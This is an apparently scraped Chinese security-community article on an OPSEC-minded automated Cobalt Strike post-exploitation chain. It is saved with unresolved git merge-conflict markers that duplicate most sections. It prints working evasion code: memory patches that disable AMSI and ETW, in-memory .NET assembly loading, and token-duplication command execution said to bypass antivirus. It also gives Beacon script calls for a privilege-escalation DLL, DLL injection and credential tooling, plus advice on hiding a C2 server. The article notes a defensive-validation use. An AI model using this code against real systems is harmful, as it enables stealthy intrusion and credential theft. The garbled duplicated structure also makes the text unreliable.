<<<<<<< HEAD
---
title: 基于 OPSEC 的 CobaltStrike 后渗透自动化链 - 先知社区
url: https://xz.aliyun.com/t/14076
clipped_at: 2024-03-20 09:41:30
category: default
tags: 
 - xz.aliyun.com
---
=======
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f


# 基于 OPSEC 的 CobaltStrike 后渗透自动化链 - 先知社区

<<<<<<< HEAD
=======
基于 OPSEC 的 CobaltStrike 后渗透自动化链

- - -

>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
本文探究如何将后渗透攻击链中的部分人工重复性工作借助 CobaltStrike 转变为自动化并兼顾隐蔽性（Bypass），思路仅供参考。遵循 OPSEC（Operations Security）原则，完整的隐蔽自动化链需结合 C2 隐匿、木马免杀、工具魔改二开、BOF、自研工具 / C2、ATT&CK 攻击手法等结合使用，此外企业安全建设方面也可借此做自动化内网攻击编排进行内网终端侧、流量侧防护效果的验证。

> 本文部分示例代码已上传 Github：[https://github.com/lintstar/CS-AutoPostChain](https://github.com/lintstar/CS-AutoPostChain)

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172208-d54df57a-df88-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172208-d54df57a-df88-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

## 目前的困境

1、鱼叉式水坑、社工钓鱼以及威胁猎捕场景下上线时间不可控，且无法二十四小时守在电脑附近，同时常见的自动权限维持插件需要提前在目标机器放置木马，并且存在维权上线然后重复维权的套娃问题

2、在 HW 场景下单个主机的信息收集、权限维持和凭据收集等大部分都是重复性操作，且进行 CS 多人协作时容易重复收集降低效率

3、已有的自动化链（上线自动执行 whoami 截图等操作）大部分使用 brun、bshell、bspawn 等 CS 原生敏感命令，容易被杀软检测关联到木马进程导致掉线，已不适应如今的攻防场景

## 整体实现思路

### 0x01 C2 服务端隐蔽

AutoPostChain 是借助 CobaltStrike 的内部函数和事件监听实现的，要兼顾隐蔽性首先要保证 CS 服务端本身足够隐蔽，包括流量侧和行为侧等，例如 CobaltStrike Profile 中的 spawnto 决定了 beacon 会拉起什么进程：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172227-e0ef1d96-df88-1.png)

又比如使用 CS 默认证书的默认指纹特征很容易被威胁情报等标记，这是早期某版本服务端的 jarm 指纹值：

```plain
jarm="07d14d16d21d21d07c42d41d00041d24a458a375eef0c576d23a7bab9a9fb1" && category="其他安全产品" && product="COBALTSTRIKE-团队服务器" && product="Major-Cobalt-Strike"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172246-ec08e978-df88-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172227-e0ef1d96-df88-1.png)

又比如使用 CS 默认证书的默认指纹特征很容易被威胁情报等标记，这是早期某版本服务端的 jarm 指纹值：

```bash
jarm="07d14d16d21d21d07c42d41d00041d24a458a375eef0c576d23a7bab9a9fb1" && category="其他安全产品" && product="COBALTSTRIKE-团队服务器" && product="Major-Cobalt-Strike"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172246-ec08e978-df88-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

因此对于 C2 服务端的隐匿（端到端加密 HTTPS、设置 `host_stage` 为 false、修改 `JARM` / `JA3` 指纹特征、使用 `Nginx`、`Apache` 等中间件或云函数等服务来中转流量）、定制化 Malleable C2 Profile（仿真业务白流量行为）、木马免杀（定制 Beacon、`Arsenal kit` 套件、`BokuLoader` 等 UDRL）等是 AutoPostChain 在实战中的基座，对于攻防场景中的实际效果至关重要，这部分内容已有非常多优秀的案例文章和项目学习，本文不再赘述。

### 0x02 动态行为隐蔽

目前已有的自动化链（上线自动执行 whoami 截图等操作）大部分使用 brun、bshell、bspawn 等 CS 原生敏感命令，在动态行为侧非常容易被查杀（例有些杀软会直接对 cmd、powershell 进程拉起、进程注入直接查杀）

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172259-f3dd2466-df88-1.png)

一些 CS 插件中集成的信息收集命令会直接调用 wmic 等系统命令，引发主机告警：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172316-fe2af3a8-df88-1.png)

同时这类型操作也很容易被杀软检测关联到木马进程导致掉线，例如 Defender 会将相关行为及遥感数据上报云端，关键字为 `LaunchingSuspCMD`，云端情报会不断标记此木马样本并判断，最后导致马被查杀：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172348-113aa5b0-df89-1.png)

从 OPSEC 原则考虑，在现如今的攻防场景下 Beacon 的行为应该避免拉起 cmd.exe、powershell.exe 等进程，避免使用 CS 原生的 spawn、screenshot、logonpasswords 等敏感操作命令： [OPSEC Considerations for Beacon Commands](https://www.cobaltstrike.com/blog/opsec-considerations-for-beacon-commands)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172411-1eb6d42a-df89-1.png)

从武器化趋势来看，BOF (Beacon Object Files) 是 CobaltStrike 4.1 版本后引入的，它是一个由 C 编译、可在 Beacon 进程中动态加载执行的二进制程序。无文件执行与无新进程创建的特性更加符合 OPSEC 的原则，适用于严苛的终端对抗场景。

低开发门槛与便利的内部 Beacon API 调用与使得 BOF 特别适合后渗透阶段攻击工具的快速开发与移植， CobaltStrike 社区工具包近期更新的项目中 BOF 相关的项目占了 7 个：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172427-28524de8-df89-1.png)

早在 2018 年的 Cobalt Strike 3.11 版本中引入的 `execute-assembly` 模块使得 RedTeam 可以在内存中执行这些功能丰富的后渗透相关 `.NET` 程序集，而无需承担将这些工具落盘的额外风险。同时 GitHub 也有大量优秀的红队相关、名称为 `Sharp` 开头的 C# 项目，例如知名组织 `GhostPack` 的仓库就包含了大量 1k Star 以上 C# 开发的后渗透工具：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172438-2e94355e-df89-1.png)

同时自 CobaltStrike 4.6 版本后，在 Malleable C2 Profile 中添加了三个新设置 `tasks_max_size`、`tasks_proxy_max_size` 和 `tasks_dns_proxy_max_size`，可用于控制其最大大小限制，这也意味着 `execute-assembly` 方式执行 C# 程序不再有 1M 的限制：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172450-362e0aec-df89-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172259-f3dd2466-df88-1.png)

一些 CS 插件中集成的信息收集命令会直接调用 wmic 等系统命令，引发主机告警：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172316-fe2af3a8-df88-1.png)

同时这类型操作也很容易被杀软检测关联到木马进程导致掉线，例如 Defender 会将相关行为及遥感数据上报云端，关键字为 `LaunchingSuspCMD`，云端情报会不断标记此木马样本并判断，最后导致马被查杀：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172348-113aa5b0-df89-1.png)

从 OPSEC 原则考虑，在现如今的攻防场景下 Beacon 的行为应该避免拉起 cmd.exe、powershell.exe 等进程，避免使用 CS 原生的 spawn、screenshot、logonpasswords 等敏感操作命令： [OPSEC Considerations for Beacon Commands](https://www.cobaltstrike.com/blog/opsec-considerations-for-beacon-commands)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172411-1eb6d42a-df89-1.png)

从武器化趋势来看，BOF (Beacon Object Files) 是 CobaltStrike 4.1 版本后引入的，它是一个由 C 编译、可在 Beacon 进程中动态加载执行的二进制程序。无文件执行与无新进程创建的特性更加符合 OPSEC 的原则，适用于严苛的终端对抗场景。

低开发门槛与便利的内部 Beacon API 调用与使得 BOF 特别适合后渗透阶段攻击工具的快速开发与移植，CobaltStrike 社区工具包近期更新的项目中 BOF 相关的项目占了 7 个：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172427-28524de8-df89-1.png)

早在 2018 年的 Cobalt Strike 3.11 版本中引入的 `execute-assembly` 模块使得 RedTeam 可以在内存中执行这些功能丰富的后渗透相关 `.NET` 程序集，而无需承担将这些工具落盘的额外风险。同时 GitHub 也有大量优秀的红队相关、名称为 `Sharp` 开头的 C# 项目，例如知名组织 `GhostPack` 的仓库就包含了大量 1k Star 以上 C# 开发的后渗透工具：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172438-2e94355e-df89-1.png)

同时自 CobaltStrike 4.6 版本后，在 Malleable C2 Profile 中添加了三个新设置 `tasks_max_size`、`tasks_proxy_max_size` 和 `tasks_dns_proxy_max_size`，可用于控制其最大大小限制，这也意味着 `execute-assembly` 方式执行 C# 程序不再有 1M 的限制：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172450-362e0aec-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

因此从 OPSEC 原则以及现有工具武器化难度和通用性考虑，无文件落地的场景下 `execute-assembly` 方式内存加载 C# 工具集和 `beacon_inline_execute` 方式执行 BOF 用在 AutoPostChain 来执行各阶段操作更为合适。

### 0x03 隐蔽注入 C# 程序

#### 实现原理

首先来了解下 `execute-assembly` 的实现原理，CobaltStrike 实现了在非托管程序中注入和执行 `.NET` 程序集的功能，该功能使我们的恶意 `.NET` 程序集不落地在内存中执行，这个过程实质为：

1.  **初始化 CLR：** 首先通过调用 Unmanaged API 的 `CLRCreateInstance` 函数来获取 CLR 的接口，然后调用 `ICLRRuntimeHost::Start` 方法启动 CLR 实例，以便在在非托管环境中加载和执行托管代码：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    CLRCreateInstance(CLSID_CLRMetaHost, IID_ICLRMetaHost, (VOID**)&iMetaHost);
    iMetaHost->GetRuntime(L"v4.0.30319", IID_ICLRRuntimeInfo, (VOID**)&iRuntimeInfo);
    iRuntimeInfo->GetInterface(CLSID_CorRuntimeHost, IID_ICorRuntimeHost, (VOID**)&iRuntimeHost);
    iRuntimeHost->Start();
    ```
    
2.  **获取 AppDomain：** CLR 初始化后，使用 `ICLRRuntimeHost` 获取 `AppDomain` 接口指针，然后通过 `AppDomain` 接口的 `QueryInterface` 方法来查询默认应用程序域 `DefaultAppDomain` 的实例指针：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    iRuntimeHost->GetDefaultDomain(&pAppDomain);
    pAppDomain->QueryInterface(__uuidof(_AppDomain), (VOID**)&pDefaultAppDomain);
    ```
    
3.  **加载程序集：**在拥有运行时环境 CLR 以及可以被托管的容器程序域之后，创建一个包含程序集二进制内容的安全数组 `SAFEARRAY`，并传递给 `AppDomain` 接口的 `Load_3` 方法来在内存中加载 `.NET` 程序集，同时使用 `Assembly` 的 `get_EntryPoint` 方法获取程序集的入口点：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    HRESULT Load_3 (
        SAFEARRAY* rawAssembly,
        Assembly **pRetVal )
    
    pDefaultAppDomain->Load_3(pSafeArray, &pAssembly);
    pAssembly->get_EntryPoint(&pMethodInfo);
    ```
    
4.  **执行程序集：** 加载程序集后，调用 `MethodInfo` 的 `Invoke_3` 来执行程序集的入口点 `Main(string[] args)` or `Main()`：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    HRESULT hr = pMethodInfo->Invoke_3(vObj, args, &vRet);
    ```
    

这也是当 `execute-assembly` 执行 `.NET` 程序集出错后会提示如下错误的原因：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172513-43c49464-df89-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172513-43c49464-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

整个注入和执行 `.NET` 程序集过程中的部分名词解释：

-   CLR 全称 Common Language Runtime（公共语言运行库），是 `.NET Framework` 的主要执行引擎。
<<<<<<< HEAD
-   在 CLR 监视之下运行的程序属于托管的代码（ managed ），不在 CLR 之下，直接在裸机上运行的应用或者组件属于非托管的代码（ unmanaged ）。
-   Unmanaged API 用于将 `.NET` 程序集加载到任意程序中，作为非托管代码与 CLR 之间的桥梁，使得非托管应用程序能够加载 CLR、执行托管代码。
-   `CLRCreateInstance` 是 Unmanaged API 的一个函数，用于从非托管代码中创建和获取 CLR 的 COM 接口实例， 例如 `ICorRuntimeHost` 和 `ICLRRuntimeHost` 这两种接口。
=======
-   在 CLR 监视之下运行的程序属于托管的代码（managed），不在 CLR 之下，直接在裸机上运行的应用或者组件属于非托管的代码（unmanaged）。
-   Unmanaged API 用于将 `.NET` 程序集加载到任意程序中，作为非托管代码与 CLR 之间的桥梁，使得非托管应用程序能够加载 CLR、执行托管代码。
-   `CLRCreateInstance` 是 Unmanaged API 的一个函数，用于从非托管代码中创建和获取 CLR 的 COM 接口实例，例如 `ICorRuntimeHost` 和 `ICLRRuntimeHost` 这两种接口。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
-   `ICLRRuntimeHost` 是一个 COM 接口，提供了启动、停止 CLR 以及在托管环境中执行托管代码的方法。它是通过 `CLRCreateInstance` 函数获取的 CLR 服务之一。
-   `AppDomain`（应用程序域）允许应用程序在相同的进程中隔离地执行一段代码。每个 `AppDomain` 都有其自己的一组加载的程序集、变量和执行环境。通过使用 `AppDomain`，可以在相同的进程中安全地加载和卸载程序集，而不影响进程中的其他部分。

#### 技术选型

但是在使用 `execute-assembly` 时，CobaltStrike 会采用 `fork&run` 模式，根据可扩展配置文件的 `spawnto` 配置，根据对应架构将 CLR 注入远程进程来加载并执行 `.NET` 程序集：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
post-ex { # Reference: https://www.cobaltstrike.com/help-malleable-postex
    set spawnto_x86 "%windir%\\syswow64\\systray.exe";
    set spawnto_x64 "%windir%\\sysnative\\getmac.exe /V";
    ......
}
```

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172530-4d9710e8-df89-1.png)

这种动态行为不符合 OPSEC 原则，并且十分容易被 AV 检测到（ 例如某核晶防护模式会拦截无法执行 ）因此也就诞生了使用 BOF 作为载体，针对 `execute-assembly` 的优化版本：
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172530-4d9710e8-df89-1.png)

这种动态行为不符合 OPSEC 原则，并且十分容易被 AV 检测到（例如某核晶防护模式会拦截无法执行）因此也就诞生了使用 BOF 作为载体，针对 `execute-assembly` 的优化版本：
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

-   [https://github.com/med0x2e/ExecuteAssembly](https://github.com/med0x2e/ExecuteAssembly)
-   [https://github.com/kyleavery/inject-assembly](https://github.com/kyleavery/inject-assembly)
-   [https://github.com/anthemtotheego/InlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly)

这三个项目都提供了在 Cobalt Strike 框架内执行 `.NET` 程序集的能力，但它们在实现方式和特性上有所不同：

**实现方式：**

-   **ExecuteAssembly** 通过 C/C++ 构建，支持加载和注入 `.NET` 程序集，具有 PE DOS 头篡改、绕过 ETW + AMSI、动态解析 API 等特性。
-   **inject-assembly** 通过 BOF 初始化器和 PIC 程序装载器组成，允许在任何进程中执行 `.NET` 程序，并且可以将输出返回给 Beacon，实现了环境退出的修补等功能。
-   **InlineExecute-Assembly** 能自动决定所需的 CLR 版本，并支持通过命名管道或邮槽重定向控制台输出，同时也提供了 AMSI 和 ETW 的内存修补选项。

**特性：**

-   `med0x2e/ExecuteAssembly` 和 `kyleavery/inject-assembly` 支持将 .NET 程序集注入到其他进程中执行。
-   `kyleavery/inject-assembly` 可以通过指定 pid 为 0 注入本进程中。
-   `anthemtotheego/InlineExecute-Assembly` 专注于在当前 Beacon 进程内执行，避免创建新的进程。

例如 `med0x2e/ExecuteAssembly` 在不加入 `--spawnto` 参数时默认注入 `PresentationHost.exe` ：

<<<<<<< HEAD
```plain
ExecuteAssembly --dotnetassembly /Users/Tools/Develop/SharpHunter.exe --assemblyargs sys
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172552-5b02f684-df89-1.png)

可以指定注入到 `Microsoft.Uev.SyncController.exe` 等进程：

```plain
ExecuteAssembly --dotnetassembly /Users/Tools/Develop/SharpHunter.exe --assemblyargs sys --spawnto Microsoft.Uev.SyncController.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172608-6468c820-df89-1.png)
=======
```bash
ExecuteAssembly --dotnetassembly /Users/Tools/Develop/SharpHunter.exe --assemblyargs sys
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172552-5b02f684-df89-1.png)

可以指定注入到 `Microsoft.Uev.SyncController.exe` 等进程：

```bash
ExecuteAssembly --dotnetassembly /Users/Tools/Develop/SharpHunter.exe --assemblyargs sys --spawnto Microsoft.Uev.SyncController.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172608-6468c820-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

在不考虑是否注入进程的情况下，测试发现前两个方式存在**不足之处：**

-   `med0x2e/ExecuteAssembly` 静态系统调用方式只支持 x64 版本，并且脚本需要有 gzip 环境
    
-   `kyleavery/inject-assembly` 仅支持 x64 架构，且执行部分字符尤其中文会出现乱码：
    

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172628-707ad2a2-df89-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172628-707ad2a2-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

综合以上因素考虑，选择 `anthemtotheego/InlineExecute-Assembly` 作为 AutoPostChain 注入 C# 程序的替代方式。

#### 功能调优

`InlineExecute-Assembly` 能够在避免 `execute-assembly` 方式在实战中运行存在的 OPSEC 隐患的同时，不给 RedTeam 带来额外的二次开发改造时间：即能兼容各类型成熟的 `.NET` 后渗透工具并保证运行的稳定性。

例如使用通过 `.NET` 开发的主机信息自动化收集工具 SharpHunter.exe 的 `sys` 参数获取主机基本信息：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172654-801e4892-df89-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172654-801e4892-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

`InlineExecute-Assembly` 执行原理类似 CobaltStrike 的实现原理：

1.  创建并启动 CLR 环境
2.  创建 AppDomain 并加载和执行程序集
3.  将控制台 STDOUT 重定向到命名管道或邮件槽
4.  释放所有分配的资源，关闭句柄，并卸载 AppDomain

**优化的部分如下：**

1.  `execute-assembly` 方式在通过 `ICLRMetaHost` 的 `GetRuntime` 方法加载 CLR 时，必须指定所需的 `.NET` 框架版本；在 `InlineExecute-Assembly` 中采用了一个取巧的方式去读取汇编字节来自动判断加载的版本：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    BOOL FindVersion(void * assembly, int length) {
     char* assembly_c;
     assembly_c = (char*)assembly;
     char v4[] = { 0x76,0x34,0x2E,0x30,0x2E,0x33,0x30,0x33,0x31,0x39 };
     for (int i = 0; i < length; i++)
     {
         for (int j = 0; j < 10; j++)
         {
             if (v4[j] != assembly_c[i + j])
             {
                 break;
             }
             else
             {
                 if (j == (9))
                 {
                     return 1;
                 }
             }
         }
     }
     return 0;
    }
    ```
    
2.  支持加载 `amsi.dll` 对 `AmsiScanBuffer` 进行内存修补来绕过 AMSI：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    BOOL patchAMSI()
    {
    #ifdef _M_AMD64
        unsigned char amsiPatch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };//x64
    #elif defined(_M_IX86)
     unsigned char amsiPatch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };//x86
    #endif
     HINSTANCE hinst = LoadLibrary("amsi.dll");
        void* pAddress = (PVOID)GetProcAddress(hinst, "AmsiScanBuffer");
     ......
     void* lpBaseAddress = pAddress;
     ULONG OldProtection, NewProtection;
     SIZE_T uSize = sizeof(amsiPatch);
     // 通过 NTProtectVirtualMemory 更改内存保护
     _NtProtectVirtualMemory NtProtectVirtualMemory = (_NtProtectVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtProtectVirtualMemory");
     NTSTATUS status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, PAGE_EXECUTE_READWRITE, &OldProtection);
     ......
     // 通过 NTWriteVirtualMemory Patch AMSI
     _NtWriteVirtualMemory NtWriteVirtualMemory = (_NtWriteVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
     status = NtWriteVirtualMemory(NtCurrentProcess(), pAddress, (PVOID)amsiPatch, sizeof(amsiPatch), NULL);
     ......
     // 通过 NTProtectVirtualMemory 恢复内存保护
     status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, OldProtection, &NewProtection);
     ......
     // 已成功 Patch AMSI
     return 1;   
    }
    ```
    
3.  通过修改内存中 `EtwEventWrite` 函数的起始字节，从而绕过 ETW：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    BOOL patchETW(BOOL revertETW)
    {
    #ifdef _M_AMD64
     unsigned char etwPatch[] = { 0 };
    #elif defined(_M_IX86)
     unsigned char etwPatch[3] = { 0 };
     ......
     // 获取指向 EtwEventWrite 的指针
     void* pAddress = (PVOID) GetProcAddress(GetModuleHandleA("ntdll.dll"), "EtwEventWrite");
     ......
     // 通过 NTProtectVirtualMemory 更改内存保护
     _NtProtectVirtualMemory NtProtectVirtualMemory = (_NtProtectVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtProtectVirtualMemory");
     NTSTATUS status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, PAGE_EXECUTE_READWRITE, &OldProtection);
     ......
     // 通过 NTWriteVirtualMemory Patch ETW
     _NtWriteVirtualMemory NtWriteVirtualMemory = (_NtWriteVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
     status = NtWriteVirtualMemory(NtCurrentProcess(), pAddress, (PVOID)etwPatch, sizeof(etwPatch)/sizeof(etwPatch[0]), NULL);
     ......
     // 通过 NTProtectVirtualMemory 恢复内存保护
     status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, OldProtection, &NewProtection);
     ......
     // 已成功 Patch ETW
     return 1;   
    }
    ```
    
    ETW 全称为 Event Tracing for Windows，即 Windows 事件跟踪，可以使用 `.NET assemblies` 选项卡检查 ProcessHacker 通过 ETW 报告的程序集，如下图：
    
<<<<<<< HEAD
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240311172730-9581747a-df89-1.png)
    
    使用 `-etw` 标志运行 `inline-Execute-Assembly`
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240311172750-a198718c-df89-1.png)
    
4.  支持对 AppDomain、NamedPipe 或 MailSlot 的值进行自定义，默认均为 `totesLegit` ：
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240311172813-aebb9c36-df89-1.png)
=======
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240311172730-9581747a-df89-1.png)
    
    使用 `-etw` 标志运行 `inline-Execute-Assembly`
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240311172750-a198718c-df89-1.png)
    
4.  支持对 AppDomain、NamedPipe 或 MailSlot 的值进行自定义，默认均为 `totesLegit` ：
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240311172813-aebb9c36-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    
    > 测试发现通过指定 MailSlot 能回传完整程序的运行结果，避免出现 Beacon 控制台丢失部分回显的情况
    

综上所述，在 AutoPostChain.cna 脚本中参数定义如下：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
sub inlineExecute-Assembly {
  ......
    $_amsi = 1;
  $_etw = 1;
  $_revertETW = 0;
  $_mailSlot = 1;
  $_mailSlotName = "DefaultMailSlot";
  $_mailSlotNameArgs = "DefaultMailSlot";
  $_pipeName = "DefaultPipe";
  $_pipeNameArgs = "DefaultPipe";
  $_entryPoint = 1;
  $_appDomain = "DefaultDomain";
  $_appDomainArgs = "DefaultDomain";
  $_dotNetAssembly = $2;
  $_dotNetAssemblyArgs = $3;
  $_assemblyWithArgs = $_dotNetAssemblyArgs;
  .......
}
```

同时 `_dotNetAssembly` 和 `_dotNetAssemblyArgs` 由调用的地方传入，例如：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
inlineExecute-Assembly($1,script_resource("/scripts/SharpHunter.exe"), "run \"whoami\"");
```

等效于在 Beacon 控制台执行如下命令：

<<<<<<< HEAD
```plain
inlineExecute-Assembly --dotnetassembly /Users/Tools/scripts/SharpHunter.exe --assemblyargs run whoami --amsi --etw --appdomain DefaultDomain --pipe DefaultPipe --mailSlot DefaultMailSlot
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172835-bc31838a-df89-1.png)
=======
```bash
inlineExecute-Assembly --dotnetassembly /Users/Tools/scripts/SharpHunter.exe --assemblyargs run whoami --amsi --etw --appdomain DefaultDomain --pipe DefaultPipe --mailSlot DefaultMailSlot
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172835-bc31838a-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 0x04 隐蔽执行系统命令

实战中使用 `cmd.exe` 执行命令大概率会被杀软拦截或引发设备告警，遵从 OPSEC 原则这里使用当前线程令牌在不需用户明文凭证的情况下，以当前用户的权限执行命令。

#### 实现原理

使用当前用户的令牌（通过 `WindowsIdentity.GetCurrent().Token` 获取）作为 `DuplicateTokenEx` 的输入，创建一个新的令牌：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
var hToken = WindowsIdentity.GetCurrent().Token;
var hDupedToken = IntPtr.Zero;

win32.DuplicateTokenEx(
    hToken,
    win32.GENERIC_ALL_ACCESS,
    ref sa,
    (int)win32.SECURITY_IMPERSONATION_LEVEL.SecurityIdentification,
    (int)win32.TOKEN_TYPE.TokenPrimary,
    ref hDupedToken
);
```

使用复制的令牌，调用 `CreateProcessAsUser` 创建新进程，执行指定的命令：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
win32.CreateProcessAsUser(
    hDupedToken,
    null,
    cmdline,
    ref sa, ref sa,
    true,
    win32.NORMAL_PRIORITY_CLASS | win32.CREATE_NO_WINDOW,
    IntPtr.Zero,
    null, ref si, ref pi
);
```

在成功创建进程后，通过创建的管道读取进程的标准输出和错误输出。使用 `ReadFile` 函数循环读取输出内容，并通过控制台打印出来，实现命令执行结果的回显：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
while (true)
{
    uint BytesRead = 0;
    byte[] buf = new byte[10240];
    if (!win32.ReadFile(hRead, buf, (uint)buf.Length, out BytesRead, IntPtr.Zero))
        break;
    string str = Encoding.UTF8.GetString(buf, 0, (int)BytesRead);
    Console.Write(str);
    Thread.Sleep(100);
}
```

实测在支持 `execute-assembly` 的环境中能够绕过 Symantec 等 AntiVirus 软件执行任意系统命令：

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172851-c5e1497e-df89-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311172851-c5e1497e-df89-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

使用 `InlineExecute-Assembly` 方式调用 SharpHunter 即可做到 Beacon 本进程隐蔽执行任意系统命令。

### 0x05 上线自动执行

#### 常用执行函数

首先比较常用的执行 Windows 命令或后渗透工具集的函数示例如下：

1.  通过 Beacon 调用 `cmd.exe` 执行命令：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    bshell($1, "taskkill -f /im lazagne.exe");
    ```
    
2.  静默运行已经上传到目标机器的可执行文件：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    bexecute($1, "notepad.exe");
    ```
    
3.  加载本地 `.NET` 执行文件
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    bexecute_assembly($1, script_resource('/scripts/InfoCollect/Ladon.exe'), "GetInfo");
    ```
    
4.  加载 Reflective dll 文件
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    bdllspawn($bid, script_resource("/scripts/AuthPromote/cve-2016-0051.x86.dll"), $stager, "ms16-016", 5000);
    ```
    
5.  注入 Reflective dll 文件
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    bdllinject($1, pid, script_resource("exp.dll"));
